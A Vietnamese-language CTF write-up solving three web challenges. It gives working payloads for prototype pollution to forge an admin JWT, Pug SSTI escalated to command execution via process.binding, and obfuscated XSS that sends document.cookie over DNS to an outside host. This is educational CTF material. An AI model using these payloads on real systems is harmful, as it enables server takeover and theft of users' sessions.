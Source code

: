 ```yaml
---
title: "W1 Playground Writeup"
date: 2024-05-01 00:00:00 +0800
categories: [CTF Writeup]
tags: [Prototype Pollution, SSTI, API testing, XSS, PHP]
---
```


## Bài 1: easy login

![image](https://i.imgur.com/paDR37b.png)

Phân tích qua code thì chúng ta có 2 endpoint cần để tâm là "/login" và "/admin"

![image](https://i.imgur.com/ljSahfY.png)

![image](https://i.imgur.com/mr7eats.png)

Chức năng login bắt chúng ta post data lên và server sẽ trả lại mã jwtkey để chúng ta đăng nhập
Chức năng admin kiểm tra xem chúng ta có phải admin không qua `isAdmin=true` sau khi phân tích jwtkey
Sau khi phân tích bài này dính lỗi Prototype Pollution bằng cách thêm `logindata["__proto__"][isAdmin]=true` vào thì prototype của `logindata` sẽ có thuộc tính `isAdmin=true` từ đó logindata sẽ kế thừa thuộc tính đó
Payload

![image](https://i.imgur.com/t62zoI3.png)

Có jwtkey rồi thì vào admin để lấy flag thôi

![image](https://i.imgur.com/NdpGVoS.png)

**Flag : W1{REDACTED}**


## Bài 2: render4free

![image](https://i.imgur.com/KTMygHL.png)

Phân tích qua code thì web này đang sử dụng Pug template engine để in ra các ký tự chúng ta gõ vào
Sau khi phân tích code thì chúng ta có thể rút ra web đang dính lỗi SSTI nhưng có 1 function này đang chặn chúng ta khai thác SSTI

![image](https://i.imgur.com/SliIvxB.png)

Sau khi đọc pug document thì chúng ta có thể sử dụng "-" để viết code js

![image](https://i.imgur.com/5mAiiby.png)

Bây giờ chúng ta có thể dùng "-" để viết code js thì chúng ta viết gì ? Đó chính là ghi đè lại function filter ký tự của chúng ta

```- global.replace_bad_char = str_to_replace => str_to_replace```
Tiếp tục ghi đè lại function trên để chúng ta có thể thực hiện lệnh eval

```- global.replace_bad_char = str_to_replace => eval(str_to_replace)```
Sau khi ghi đè được rồi thì viết vào để thử thực hiện RCE nào
Payload ```require('child_process').exec('ping hacked.sv')```
![image](https://i.imgur.com/ACbksnM.png)
Làm gì dễ thế anh Shin24 (author bài này) đã set type của nodejs là module tức chúng ta không thể require mà phải sử dụng import
Nhưng mà code đã chỉnh Promise.prototype.then đã thành 1 hàm trả về null

![image](https://i.imgur.com/2wwyD2a.png)

Oat gì dark vậy, lúc này chúng ta sử dụng process.binding để import các modules của nodejs
```js
  process.binding('spawn_sync').spawn({ 
    file: 'ls',
    args: [''],
    stdio: [
        { type: 'pipe', readable: true, writable: false },
        { type: 'pipe', readable: false, writable: true },
        { type: 'pipe', readable: false, writable: true }
  ]}).output.toString()
  ```
![image](https://i.imgur.com/zswZKe6.png)

Ngon vậy là có thể thực hiện lệnh ls
Để ý ở file Docker author đã tạo ra 1 file /read_flag để đọc flag vậy chúng ta thực thi file read_flag để nhận flag

![image](https://i.imgur.com/5EUqBt7.png)

Payload:
 ```js
  process.binding('spawn_sync').spawn({ 
    file: '/read_flag',
    args: [''],
    stdio: [
        { type: 'pipe', readable: true, writable: false },
        { type: 'pipe', readable: false, writable: true },
        { type: 'pipe', readable: false, writable: true }
  ]}).output.toString()
  ```

  ![image](https://i.imgur.com/dKfBXot.png)


  **Flag: W1{REDACTED}**



## Bài 3: Super sanitizer

  ![image](https://i.imgur.com/IZdGXnh.png)

  Tóm tắt bài web này sử dụng WASM được compile từ C và sử dụng nó để xử lý input của user
  File C nhận input của user và blacklist để xử lý nếu có ký tự blacklist thì ký tự đó sẽ bị xoá khỏi input của user

  ![image](https://i.imgur.com/4gXTA7l.png)

  Blacklist của bài này như sau `<imgoner='\"'>`

  Lỗi của bài này nằm ở đây

  ![image](https://i.imgur.com/zaOqpyM.png)

  Khi chúng ta cho 1 ký tự có độ dài là `0x300` thì `raw_str[0x300]` sẽ bị tràn và sẽ ghi đè lên ký tự đầu tiên của blacklist là `\x00` từ đó blacklist sẽ trở thành rỗng -> bypass filter

  Nhưng đến đây thì vẫn chưa xong, web có CSP để làm XSS khó hơn

  Sau một lúc fuzzing để kiểm tra thì dù CSP chặn redirect nhưng `window.location.href=hackerwebsite.com` vẫn resolve dns vậy ta có thể tận dụng cái này để leak flag do flag khá dài nên mình leak 2 lần để lấy flag (ví dụ `flag.hackerwebsite.com`)

  Nhưng leak kiểu gì? Mình đã thử leak kiểu `btoa(document.cookie)+".hackerwebsite.com"` nhưng khi leak thì vì lý do bảo mật dns query sẽ ngẫu nhiên uppercase hoặc lowercase các ký tự làm base64 bị lỗi nên nghĩ sang cách khác là `document.cookie.charCodeAt(0->document.cookie.length-1)` để leak ra từng ký tự của flag sang mã ascii

  Đây là payload để leak 1 nữa flag (do flag khá dài nên phải leak 2 lần)

  ```html
  aa<img src=1 onerror='document.body.innerHTML=" <img src=x onerror=eval\u0028String.fromCharCode\u0028119,105,110,100,111,119,46,108,111,99,97,116,105,111,110,46,104,114,101,102,61,34,104,116,116,112,58,47,47,34,43,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,46,115,117,98,115,116,114,105,110,103,40,48,44,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,46,108,101,110,103,116,104,47,50,41,46,115,112,108,105,116,40,34,34,41,46,109,97,112,40,99,61,62,99,46,99,104,97,114,67,111,100,101,65,116,40,48,41,41,46,106,111,105,110,40,34,46,34,41,43,34,46,119,117,107,122,98,55,50,122,46,114,101,113,117,101,115,116,114,101,112,111,46,99,111,109,34\u0029\u0029>";'>aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
  ```

  Payload thứ 2 để leak phần còn lại

  ```html
  aa<img src=1 onerror='document.body.innerHTML=" <img src=x onerror=eval\u0028String.fromCharCode\u0028119,105,110,100,111,119,46,108,111,99,97,116,105,111,110,46,104,114,101,102,61,34,104,116,116,112,58,47,47,34,43,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,46,115,117,98,115,116,114,105,110,103,40,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,46,108,101,110,103,116,104,47,50,44,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,46,108,101,110,103,116,104,41,46,115,112,108,105,116,40,34,34,41,46,109,97,112,40,99,61,62,99,46,99,104,97,114,67,111,100,101,65,116,40,48,41,41,46,106,111,105,110,40,34,46,34,41,43,34,46,119,117,107,122,98,55,50,122,46,114,101,113,117,101,115,116,114,101,112,111,46,99,111,109,34\u0029\u0029>";'>aaaaaaaa
  ```
  
  Decode mã ascii và lấy flag

  ![image](https://i.imgur.com/nkf2UMl.png)

  **Flag: W1{WASM_101_and_some_js_gadget_hope_you_enjoyed:)))))))))))))))))))))))))))))))))))))))))@0x4161}**










